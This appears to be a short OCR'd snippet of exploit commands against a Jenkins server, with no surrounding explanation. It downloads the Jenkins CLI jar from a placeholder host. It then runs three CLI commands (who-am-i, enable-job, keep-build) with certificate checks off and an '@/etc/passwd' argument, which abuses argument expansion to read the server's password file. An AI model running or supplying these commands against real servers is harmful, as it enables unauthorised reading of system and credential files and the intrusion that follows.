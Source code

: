 wget http://domain/jnlpJars/jenkins-cli.jar -O jenkins-cli-ip.jar


java -jar jenkins-cli-ip.jar -noCertificateCheck -s  http://domain who-am-i "@/etc/passwd"
java -jar jenkins-cli-ip.jar -noCertificateCheck -s  http://domain enable-job "@/etc/passwd"
java -jar jenkins-cli-ip.jar -noCertificateCheck -s  http://domain keep-build "@/etc/passwd"
